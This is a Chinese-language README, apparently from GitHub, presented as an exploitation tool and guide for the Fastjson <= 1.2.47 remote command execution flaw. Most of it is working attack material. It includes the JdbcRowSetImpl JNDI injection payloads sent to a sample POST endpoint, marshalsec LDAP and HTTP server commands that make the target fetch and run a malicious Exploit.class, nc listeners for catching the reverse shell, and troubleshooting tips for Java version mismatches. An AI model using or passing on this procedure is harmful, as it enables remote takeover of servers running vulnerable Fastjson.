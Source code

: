 # fastjson-1.2.47-RCE
Fastjson &lt;= 1.2.47 远程命令执行漏洞利用工具及方法，以及避开坑点

以下操作均在Ubuntu 18下亲测可用，openjdk需要切换到8，且使用8的javac
```
> java -version
openjdk versin "1.8.0_222"

> javac -version
javac 1.8.0_222
```

### 0x00 假设存在漏洞的功能

```
POST /note/submit/

param={'id':29384,'content':'Hello','type':'string'}
```

### 0x01 测试外连

准备一台服务器监听流量
```
nc -lvvp 7777
```

发送Payload，将IP改为监听服务器IP
```
POST /note/submit/

param={"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:7777/Exploit","autoCommit":true}}}
```

如果监听服务器有流量，可以继续下一步

### 0x02 准备LDAP服务和Web服务

将marshalsec-0.0.3-SNAPSHOT-all.jar文件和Exploit.java放在同一目录下

在当前目录下运行LDAP服务,修改IP为当前这台服务器的IP
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://IP/#Exploit
```

在当前目录下运行Web服务
```
python3 -m http.server 80 或者 python -m SimpleHTTPServer 80
```

### 0x03 修改Exploit并编译成class文件

修改Exploit.java中的反弹IP和端口（准备接收反弹SHELL的服务器IP和监听端口）

使用javac编译Exploit.java，生成Exploit.class文件（注意：javac最好与目标服务器接近，否则目标服务器无法解析class文件，会报错）
```
javac Exploit.java
```

### 0x03 准备

回顾一下，现在目录应该有三个文件
```
marshalsec-0.0.3-SNAPSHOT-all.jar
Exploit.java
Exploit.class
```

服务器正在开启LDAP和Web
```
LDAP Server：Listening on 0.0.0.0:1389
Web  Server：Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

一个nc正在准备接收反弹回来的SHELL
```
nc -lvvp 7777
```

### 0x04 执行
修改ip为正在运行LDAP和Web服务的服务器IP
```
POST /note/submit

param={"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:1389/Exploit","autoCommit":true}}}
```

接下来如果没有任何报错的话，LDAP将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行

你的LDAP服务和Web服务都会收到请求记录，如果没有问题，你的nc也会收到反弹回来的SHELL

### 0x05 问题

当javac版本和目标服务器差太多，会报一个这样得到错误，所以需要使用1.8的javac来编译Exploit.java
```
Caused by: java.lang.UnsupportedClassVersionError: Exploit has been compiled by a more recent version of the Java Runtime (class file version 55.0), this version of the Java Runtime only recognizes class file versions up to 52.0
```

当运行LDAP的服务器java版本过高，会无法运行LDAP服务，虽然显示正在Listening，但是Fastjson的JNDI会报错，显示无法获取到资源，所以要使用java 1.8（openjdk 8）来运行LDAP服务
